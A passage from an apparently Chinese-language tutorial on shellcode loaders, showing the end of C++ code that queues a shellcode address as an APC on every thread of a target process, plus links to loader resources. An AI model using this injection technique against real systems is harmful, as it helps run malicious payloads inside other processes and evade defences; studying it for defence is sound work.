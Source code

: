 ```cpp=
        do {
            if (threadEntry.th32OwnerProcessID == pid)
            {
                threadIds.push_back(threadEntry.th32ThreadID);
            }
        } while (Thread32Next(snapshot, &threadEntry));
    }

    // 4. 迴圈跑過所有目標 Process 中的 Thread，呼叫 QueueUserAPC 並把 APC Function 設為我們的 Shellcode
    for (DWORD threadId : threadIds)
    {
        HANDLE threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
        QueueUserAPC((PAPCFUNC)shellAddress, threadHandle, NULL);
    }

    // 5. 呼叫 Sleep 讓當前的 Thread 進入 Alertable 狀態
    Sleep(1000);
    return 0;
}
```

## 其他
還有其他的注入型 Shellcode Loader 可以點選參考資料玩玩看。

## 參考資料
* [如何实现一款 shellcodeLoader](https://paper.seebug.org/1413/#apc)
* [knownsec/shellcodeloader](https://github.com/knownsec/shellcodeloader)

